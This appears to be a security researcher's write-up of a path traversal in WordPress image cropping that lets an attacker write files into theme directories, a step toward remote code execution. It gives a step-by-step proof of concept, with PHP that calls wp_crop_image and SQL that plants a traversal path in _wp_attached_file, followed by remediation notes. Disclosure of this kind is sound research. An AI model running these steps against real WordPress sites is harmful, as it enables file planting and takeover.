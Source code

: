# WordPress write image to any directory RCE

Image cropping in WordPress is sort of unlucky, specially derivation of final image path ( file system or http/s location ), where image will be loaded from the path, but decisions for additional directories creation and final path (no traversal prevention here) are taken from `_wp_attached_file`. Those issues are subject for deeper observation and debugging which will happen in the very near future, for now we need to get another conclusion.

## Eli5 PoC
- Upload image to your local WP and name it wpdeeply.png (in order to be able to use copy paste from here in next steps)
- Get attachment_id (post_id of the image)
- Enable hello.php plugin and add this code at the end of the file

```
function wprcedemo(){
    
    //add your attachment_id here - mine is 77
    $attachment_id = 77;
    
    if ( ! function_exists( 'wp_crop_image' ) ) {
        include ABSPATH . 'wp-admin/includes/image.php';
    }

    wp_crop_image($attachment_id, 0, 0, 300, 300, 300, 300);
    
    exit("good :)");
}

add_action("init", "wprcedemo");

```

- Open mysql administration tool and execute following query

```
UPDATE `wp_postmeta` SET `meta_value` =  concat('2020/07/wpdeeply.png#/','boom.png' ) WHERE `wp_postmeta`.`meta_key` = '_wp_attached_file' and `wp_postmeta`.`post_id` = 77
```

- Refresh the home page (good :) should be printed) and under `2020/07` there should be new directory `wpdeeply.png#`
- Open mysql administration tool and execute following query

```
UPDATE `wp_postmeta` SET `meta_value` = concat('2020/07/wpdeeply.png#/../../../../themes/twentytwenty/boom.png' ) WHERE `wp_postmeta`.`meta_key` = '_wp_attached_file' and `wp_postmeta`.`post_id` = 77
``` 

- Refresh the home page (good :) should be printed) and under `twentytwenty` theme should be `cropped-boom.png` file
- `_wp_page_template` meta_value away from RCE 

## Few facts
- WordPress allows files with valid image extension and any content in it (not complete security patches from the past)
- This bug is also part of not complete security patch in the past
- `_wp_attached_file` value becomes holy grail of WordPress security and still there are ways to interfere with it (via core)
- WP core via its site-health push users to install/configure WP in that way so core files are writable by web server

## Remediation
- Core files shouldn't be writable by www-data user
- Theme files shouldn't be writable by www-data user too 
- Turn automatic updates for WP core, plugins, themes OFF
